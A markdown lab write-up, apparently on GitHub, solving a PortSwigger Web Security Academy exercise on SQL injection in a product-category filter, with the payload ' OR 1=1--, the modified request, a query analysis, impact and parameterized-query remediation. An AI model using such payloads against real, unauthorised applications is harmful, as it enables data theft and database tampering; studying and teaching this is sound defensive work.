

# SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Objective

Retrieve hidden products by exploiting a SQL Injection vulnerability in the `category` parameter.

---

## Lab Information

| Item | Details |
|------|---------|
| Platform | PortSwigger Web Security Academy |
| Category | SQL Injection |
| Difficulty | Apprentice |
| Vulnerability | SQL Injection (WHERE Clause) |
| Tools | Burp Suite Community Edition, Firefox, Kali Linux |

---

## Enumeration

Browse the application and observe that products are filtered using the **category** parameter.

Example request:

```http
GET /filter?category=Pets HTTP/2
```

The application uses the user-supplied value directly inside a SQL query.

```sql
SELECT * FROM products
WHERE category='Pets'
AND released=1;
```

Since the input is not properly sanitized or parameterized, the application is vulnerable to SQL Injection.

---

## Identifying the Injection Point

The vulnerable parameter is:

```text
category=Pets
```

To verify the vulnerability, intercept the request using **Burp Suite**.

### Screenshot



---

## Exploitation

Inject the following payload into the `category` parameter.

```sql
' OR 1=1--
```

Modified request:

```http
GET /filter?category=Pets'+OR+1=1-- HTTP/2
```

Forward the modified request to the server.

### Screenshot

> Insert screenshot showing the modified request.

---

## SQL Query Analysis

### Original Query

```sql
SELECT * FROM products
WHERE category='Pets'
AND released=1;
```

### Injected Query

```sql
SELECT * FROM products
WHERE category=' '
OR 1=1--
AND released=1;
```

### Explanation

The payload works because:

- `'` closes the original SQL string.
- `OR 1=1` is always **TRUE**, causing every record to match.
- `--` comments out the remaining SQL query, bypassing the `released=1` condition.

As a result, the application returns both visible and hidden products.

---

## Verification

After forwarding the request, all hidden products become visible.

### Screenshot

> Insert screenshot showing the lab solved.

---

## Impact

A successful SQL Injection attack can allow an attacker to:

- Retrieve hidden data
- Bypass application restrictions
- Access sensitive information
- Modify database records
- Delete database records
- Potentially compromise the entire application

---

## Remediation

Use **parameterized queries (prepared statements)** instead of directly concatenating user input.

Example (Python):

```python
cursor.execute(
    "SELECT * FROM products WHERE category = %s",
    (category,)
)
```

Additional recommendations:

- Validate and sanitize user input.
- Use prepared statements.
- Apply the Principle of Least Privilege.
- Perform server-side input validation.
- Deploy a Web Application Firewall (WAF).

---

## Skills Demonstrated

- SQL Injection Testing
- Burp Suite
- HTTP Request Analysis
- SQL Query Analysis
- Web Application Security
- Manual Web Penetration Testing

---

## Key Takeaways

- Identified a SQL Injection vulnerability in a WHERE clause.
- Used Burp Suite to intercept and modify HTTP requests.
- Retrieved hidden data by manipulating a SQL query.
- Learned the importance of parameterized queries and secure coding practices.

---

## References

- PortSwigger Web Security Academy
- OWASP SQL Injection Prevention Cheat Sheet

---

## Disclaimer

This write-up was completed in the **PortSwigger Web Security Academy** training environment for educational purposes only.

Do not perform these techniques against systems without explicit authorization.
